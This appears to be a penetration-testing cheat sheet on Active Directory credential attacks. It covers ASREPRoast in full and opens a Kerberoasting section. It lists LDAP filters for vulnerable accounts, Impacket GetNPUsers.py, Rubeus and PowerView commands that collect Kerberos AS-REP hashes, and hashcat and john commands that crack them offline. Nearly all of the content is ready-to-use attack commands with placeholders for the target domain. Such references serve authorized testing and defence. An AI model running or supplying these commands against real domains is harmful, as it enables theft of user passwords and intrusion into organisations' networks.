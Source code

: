### ASREPRoast <a href="#asreproast" id="asreproast"></a>

> Cracking users password, with KRB\_AS\_REQ when user has DONT\_REQ\_PREAUTH attribute, KDC respond with KRB\_AS\_REP user hash and then go for cracking.

```powershell
# LDAP filter for non preauth krb users
LDAP: (&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
```

#### Linux (external) <a href="#linux-external-1" id="linux-external-1"></a>

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetNPUsers.py:

```powershell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

#### Windows (internal) <a href="#windows-internal-1" id="windows-internal-1"></a>

With [Rubeus](https://github.com/GhostPack/Rubeus):

```powershell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>

# Powerview
Get-DomainUser -PreauthNotRequired

# https://github.com/HarmJ0y/ASREPRoast
```

Cracking with dictionary of passwords:

```bash
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```

### Kerberoasting <a href="#kerberoasting" id="kerberoasting"></a>

> Cracking users password from TGS, because TGS requires Service key which is derived from NTLM hash

```powershell
# LDAP filter for users with linked services
LDAP: (&(samAccountType=805306368)(servicePrincipalName=*))
```
